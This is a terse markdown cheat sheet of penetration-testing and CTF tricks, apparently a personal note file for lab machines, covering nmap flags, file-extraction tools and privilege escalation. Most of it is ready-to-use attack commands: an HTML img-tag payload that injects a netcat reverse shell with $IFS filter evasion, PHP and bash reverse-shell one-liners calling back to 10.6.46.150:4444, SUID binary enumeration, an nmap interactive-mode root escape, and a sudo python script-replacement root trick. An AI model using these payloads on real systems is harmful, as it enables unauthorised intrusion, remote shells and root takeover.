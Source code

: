 *
-sC flag in nmap runs a set of default NSE scripts, some of them are intrusive so this should not be run against real machines.

*
-A flag means agressive. It consists of 
-A: Enable OS detection, version detection, script scanning, and traceroute

*
nmap run without sudo does TCP scan (-sT) and with sudo SYN scan (-sS). SYYN scan is better as it is a stealth one - sends RST flag to server so it avoids getting detected by firewall (for example). On the other side, it can destabilize weak applications on a server .

*
To check if there is a nse script for X service:

`grep "X" /usr/share/nmap/scripts/script.db`

*
Getting rev shell when there is a chance to write a comment

`<img src=http://10.6.46.150/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.6.46.150 '$IFS'4444')>`

 
*
SPAWNING INTTERACTING SHELL WITH PYTHON

`python3 -c 'import pty;pty.spawn("/bin/bash")'`   

*
Listing all binaries with suid permission

`find / -perm -u=s -type f 2>/dev/null`

*
link to access a modified WP theme - `404.php` (to get rev shell)

`http://10.10.142.159/wp-content/themes/twentyfifteen/404.php`

*
if there is a filtering, it is needed to add command in backslashes e.g `l\s -la`

*
PHP REV SHELL ONE LINER

`php -r '$sock=fsockopen("10.6.46.150",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`

*
BASH REV SHELL ONELINER

`bash -i &>/dev/tcp/10.6.46.150/4444 <&1`

*
There are many different converters to john format

`bin2john / zip2john / gpg2john`

*
7z is a file to extract

*
binwalk -->> tool to check of there is a zip file inside .png image

`binwalk -e file`

*
NMAP SHELL

Old version of nmap can be used to escalate to root

`nmap --version` to check version

`nmap --interactive` to enter interacttive mode

and then `!sh` to get root

*
BRAINFUCK decoder

`https://www.splitbrain.org/_static/ook/`

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>++++++++++++++.------------.+++++.>+++++++++++++++++++++++.<<++++++++++++++++++.>>-------------------.---------.++++++++++++++.++++++++++++.<++++++++++++++++++.+++++++++.<+++.+.>----.>++++.

*
XOR DECODER

`http://xor.pw/#`

*
SPEECH TO TEXT CONVERTER

`https://speech-to-text-demo.ng.bluemix.net/`


*
PHP 5 is vulnerable to "null byte injection" 

TL;DR adding '\00' in the end of command.

*
Becoming root with python script and with no read/write rights:

`mv script.py script.py.bak` ---> renaming original script

`echo "import pty" > script.py` ---> adding pty library = pseudo terminal utilities

`echo "pty.spawn('/bin/bash')" >> script.py` ---> adding a spawn function

and executing a script with path given in `sudo -l` e.g `sudo -u root /usr/bin/python /home/script.py`


*
`wget -r` downloads all files of a directory